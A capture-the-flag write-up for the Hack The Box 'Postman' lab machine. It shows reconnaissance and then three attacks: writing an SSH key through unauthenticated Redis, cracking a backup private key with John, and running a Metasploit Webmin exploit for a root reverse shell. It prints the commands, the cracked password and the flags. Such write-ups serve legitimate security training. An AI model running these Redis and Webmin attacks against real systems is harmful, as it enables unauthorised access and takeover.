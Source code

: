 # Postman
Box IP **10.10.10.160**


### Nmap scan

`msf > db_nmap -sC -sV -T4 postman.htb`


### Services
```
22/tcp      OpenSSH
80/tcp      Apache httpd 2.4.29 (Ubuntu)
6379/tcp    Redis key-value store 4.0.9
10000/tcp   MiniServ 1.910 (Webmin httpd)
```

Surfing to https://postman.htb a website shows up


### Fuzzing

Trying to fuzz for web directories, but nothing shows up
```
$ gobuster dir -u http://10.10.10.160 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log
```

Surfing to https://postman.htb:10000 we find the webmin login page.


### Redis

Switching to port 6379, there is a Redis key store 4.0.9.

Trying Anonymous login we get useful information
```
$ redis-cli -h postman.htb
> info
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
> config get *
11) "logfile"
12) "/var/log/redis/redis-server.log"
165) "dir"
166) "/var/lib/redis/.ssh"
```

We are going to create a SSH key pair, upload the public key to the **authorized_keys** file and login via SSH using the **redis** user.


### Upload SSH key
```
$ ssh-keygen -t rsa
$ cat ./.ssh/id_rsa.pub > sshPub.txt
```
```
cat sshPub.txt | redis-cli -h postman.htb -x set crackit
```
```
$ redis-cli -h postman.htb
> config set dir /var/lib/redis/.ssh
> config set dbfilename "authorized_keys"
> save
> quit
```

### SSH login
```
$ ssh -i sshPrv.txt redis@postman.htb
```

Exploring the file system we find the user account **Matt**.


### Search for .bak files
```
$ find / -name "*.bak" -ls 2>&1 | grep -v "Permission denied"
```

We find **/opt/id_rsa.bak** file.

By catting the file we find an encrypted SSH RSA private key.


### Cracking

We decide to crack the key with John

```
$ locate ssh2john.py
$ python /usr/share/john/ssh2john.py prvKey > prvKey.hash
$ john -wordlist:/usr/share/wordlists/rockyou.txt prvKey.hash
```

Cracked password is **computer2008**.


### SSH login
```
$ ssh -i prvKey Matt@htb.postman
```

The login to Matt with the private key does not work!


### User Flag

By switching user we login as Matt and we get the user flag
```
$ cat /home/Matt/user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```


### Privilege Escalation

Login to https://postman.htb:10000 with **Matt:computer2008** works.

By noticing that Webmin miniserv (**/etc/webmin/miniserv.conf**) runs with root permissions we can exploit a vulnerability of this version of [Webmin](https://www.exploit-db.com/exploits/46984)


### Webmin exploit
```
$ searchsploit webmin
$ mv 46984.rb /usr/shar/metasploit-framework/modules/exploits/
```
```
msf > reload-all
msf > search 46984
msf > use exploit/46984

> set rhost 10.10.10.160
> set lhost <tun0 IP>
> set lport 4444
> set password computer2008
> ser username Matt
> set ssl yes
> run
```

Then we have a **root** reverse TCP shell and we get the root flag

```
$ cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```


If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
